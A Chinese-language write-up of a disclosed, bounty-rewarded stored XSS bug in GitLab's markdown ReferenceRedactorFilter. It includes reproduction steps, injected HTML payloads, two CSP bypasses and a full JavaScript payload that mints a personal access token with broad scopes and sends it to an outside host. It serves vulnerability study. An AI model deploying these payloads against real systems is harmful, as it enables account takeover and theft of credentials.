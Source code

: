 
https://gitlab.com/gitlab-org/gitlab/-/issues/213273

gitlab漏洞系列-存在于markdown中的存储型XSS

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景
vakzz大佬于2020年提交了这个漏洞:
可以通过`ReferenceRedactorFilter`将任意html注入到标记中。这是因为data-original属性允许存储html编码的数据，然后将其提取并用作链接内容。如果原始数据已经被html编码，那么它将在编校后被未编码:
```ruby
    def redacted_node_content(node)  
      original_content = node.attr('data-original')  
      link_reference = node.attr('data-link-reference')

      # Build the raw <a> tag just with a link as href and content if  
      # it's originally a link pattern. We shouldn't return a plain text href.  
      original_link =  
        if link_reference == 'true'  
          href = node.attr('href')  
          content = original_content

          %(<a href="#{href}">#{content}</a>)  
        end

      # The reference should be replaced by the original link's content,  
      # which is not always the same as the rendered one.  
      original_link || original_content || node.inner_html  
    end  
```

## 复现步骤
1.用一个账户创建一个私有项目;

2.在这个私有项目中创建一个issue;

3.登出,然后重新以另外一个账户登录,此账户没有权限查看上面那个私有项目;

4.使用以下链接对与私人issue相关的issue发表评论:
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">xss &lt;img onerror=alert(1) src=x></a> 
```
5.渲染的markdown包含了注入的html:
```
<div class="md"><p data-sourcepos="1:1-1:124" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">xss <img onerror="alert(1)" src="x"></a></p></div> 
```

6.上面的代码被csp机制阻止了，但是可以像`https://hackerone.com/reports/662287#activity-6026826`(主要逻辑就是创建了一个类为`class='atwho-view select2-drop-mask pika-select' `的图像)一样绕过(需要点击页面上的任何地方，但是链接是全屏的):
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp   
&lt;a   
  data-remote=&quot;true&quot;  
  data-method=&quot;get&quot;  
  data-type=&quot;script&quot;  
  href=/wbowling/wiki/raw/master/test.js  
  class='atwho-view select2-drop-mask pika-select'  
&gt;  
  &lt;img height=10000 width=10000&gt;  
&lt;/a&gt;  
</a>  
```
产生了以下html:
```
<div class="md issue-realtime-trigger-pulse"><p data-sourcepos="1:1-11:4" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">csp  
</a><a data-remote="true" data-method="get" data-type="script" href="/wbowling/wiki/raw/master/test.js" class="atwho-view select2-drop-mask pika-select">  
<img height="10000" width="10000">  
</a>  
</p></div>  
```
## 影响
在ReferenceRedactor运行的任何地方，都可以注入任意的html。用户可以设置自己的私人项目，然后在公共项目上发表评论或问题，链接到该项目并注入xss


## 绕过csp示例
这里并不需要与用户交互
https://gitlab.com/username/project-name/-/issues/1
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp &lt;script src=&quot;/username/public/-/raw/master/test.js&quot;&gt;&lt;/script&gt; </a>
```
如果你通过git lfs(大文件存储,具体可以参考https://docs.github.com/en/repositories/working-with-files/managing-large-files/installing-git-large-file-storage)添加了一个javascript文件，那么它将会以 `content-type`为application/javascript结束，并且可以作为一个脚本src使用，因为在csp中`script-src 'self'`。
```
$ curl -I 'https://gitlab.com/vakzz-h1/public/-/raw/master/test.js'
HTTP/2 200
date: Thu, 02 Apr 2020 03:39:57 GMT
content-type: application/javascript
...
```
还有一个例子用来展示影响，如果你点击ok，它会创建一个个人令牌(注意是包含所有范围的令牌,注:gitlab里面的scopes指的是类似读，写仓库之类的权限,就是说拿到这个令牌,你可以对某个仓库进行读写操作,我这里只说大致的逻辑，方便读者理解)，并发送到远程服务器。xss可以隐藏在一个问题或评论中，并且可以触发任何查看页面的人。
issue的链接为:
`https://gitlab.com/vakzz-h1/stored-xss/-/issues/4`
填写在这个issue里面的code为:
```
<a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">create and leak an access token 
&lt;script src=&quot;/vakzz-h1/public/-/raw/master/payload.js&quot;&gt;&lt;/script&gt;
</a>
```
payload.js为:
```JavaScript
async function getToken() {
const formData = new FormData();

formData.append(
document.querySelector('meta[name="csrf-param"]').content,
document.querySelector('meta[name="csrf-token"]').content
);
formData.append("personal_access_token[name]", "test");
formData.append("personal_access_token[scopes][]", "api");
formData.append("personal_access_token[scopes][]", "read_user");
formData.append("personal_access_token[scopes][]", "read_repository");
formData.append("personal_access_token[scopes][]", "write_repository");
formData.append("personal_access_token[scopes][]", "read_registry");

const response = await fetch(
"https://gitlab.com/profile/personal_access_tokens",
{
credentials: "include",
body: formData,
method: "POST",
mode: "cors"
}
);

const parser = new DOMParser();
const doc = parser.parseFromString(await response.text(), "text/html");
return doc.querySelector("#created-personal-access-token").value;
}

if (confirm("Create an access token?")) {
getToken().then(token => {
alert("Created token is: " + token);
const image = new Image();
image.src = `//aw.rs/g/leak.gif?token=${token}`;
});
}


```


## 后续
这个漏洞官方给了5000美元



